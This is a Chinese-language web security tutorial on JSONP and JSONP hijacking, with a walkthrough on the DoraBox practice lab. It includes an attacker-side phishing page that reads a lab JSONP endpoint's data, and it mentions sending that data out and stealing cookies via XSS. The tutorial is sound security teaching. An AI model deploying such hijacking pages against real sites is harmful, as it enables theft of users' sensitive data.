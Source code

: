 ### jsonp 绕过同源策略

浏览器同源策略限制了脚本的跨域请求，但  `<script>` 标签的 src 属性可以加载跨域的 JavaScript 文件。JSONP 利用这一特性，通过动态创建 `<script>` 标签发起请求。

回调函数机制：

- 客户端预先定义一个全局函数（如 handleResponse）。
- 请求时，将函数名通过 URL 参数（如 callback=handleResponse）传递给服务器。
- 服务器将返回的数据包装成对该函数的调用（如 handleResponse({...})）。
- 当脚本加载完成后，浏览器自动执行该函数，客户端即可处理数据。

JSONP 的回调函数是客户端预先定义的一个全局函数，它的核心作用有两点：

- 接收服务器返回的数据：服务器将数据包裹在回调函数中返回，浏览器加载并执行脚本时，自动触发该函数。
- 处理数据并更新页面：在回调函数内部，通过操作 DOM 将数据动态插入到 HTML 中。

例如如下案例：

```
<script>
// 定义全局回调函数（名字需与请求参数一致）
function showWeather(data) {
    // 操作 DOM：将数据插入到页面中
    const weatherDiv = document.getElementById('weather');
    weatherDiv.innerHTML = `城市：${data.city}，温度：${data.temp}℃`;
}
// 创建 script 标签，指定跨域 URL 并传递回调函数名
const script = document.createElement('script');
script.src = 'https://weather-api.com/data?callback=showWeather'; // 关键参数 callback=showWeather
document.body.appendChild(script);
</script>
```

服务端：

```
// 服务器返回的脚本内容
showWeather({
    city: '北京',
    temp: 28
});
```

### jsonp 劫持（数据带外）

某网站支持使用 jsonp 获取敏感数据。

攻击者写个 js 钓鱼脚本，功能如下：

- 浏览器执行 js 携带目标网站的 cookie 向目标网站发送 jsonp 请求敏感数据。
- 浏览器执行 js 将敏感数据发送给攻击者网站（数据带外）。

### DoraBox-master 靶场

目标 url 提供 jsonp 数据接口。

![image-20250408193650980](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408193650980.png)

此时我们作为攻击者视角编写钓鱼脚本部署在攻击者网站上：attackspace。

```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>JSONP Data Fetch</title>
</head>

<body>
    <!-- 用于显示从JSONP接口获取的数据 -->
    <div id="data-display"></div>

    <script>
        function test(data) {
            const displayElement = document.getElementById('data-display');
            displayElement.textContent = JSON.stringify(data);
        }
        const script = document.createElement('script');
        script.src = 'http://www.oswe.com/DoraBox-master/csrf/jsonp.php?callback=test';
        document.head.appendChild(script);
    </script>
</body>

</html>
```

使用上述 js 脚本访问此接口：

![image-20250408193832253](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408193832253.png)

发现访问攻击者网站可以获取目标网站 jsonp 接口的数据，那么可以再添加 js 代码，将数据发送到攻击者网站服务器上作为日志记录（数据带外）。

jsonp 劫持挖掘思路：

- 页面源代码搜索 callback 查询网站调用了哪些 jsonp接口。
- 如果 jsonp 涉及到敏感信息，尝试其他方法（XSS 或构造钓鱼网站等）窃取用户 cookie 来访问 jsonp 接口使得目标信息泄露。

注：现在网站跨域通常使用 CORS 代替 jsonp 来跨域。